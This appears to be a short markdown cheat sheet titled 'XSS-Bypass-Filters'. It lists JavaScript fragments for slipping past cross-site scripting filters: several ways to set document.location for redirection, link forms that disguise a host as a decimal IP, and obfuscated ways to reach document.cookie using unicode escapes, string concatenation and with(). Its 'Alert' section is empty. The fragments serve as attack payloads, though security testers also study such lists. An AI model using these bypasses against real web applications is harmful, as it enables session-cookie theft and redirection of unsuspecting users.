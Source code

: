 # XSS-Bypass-Filters

### Redirection
```
document.location=
document['location']=
window.location=
this["window"]["location"]=
document.location.href=
location.href=
location= 
```

### Link

```
//google.com/?=a
//134744072:1234/?a= (decimal ip)
```

### Cookies

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
window["doc"+"ument"]["cookie"]
```

### Alert
```

```
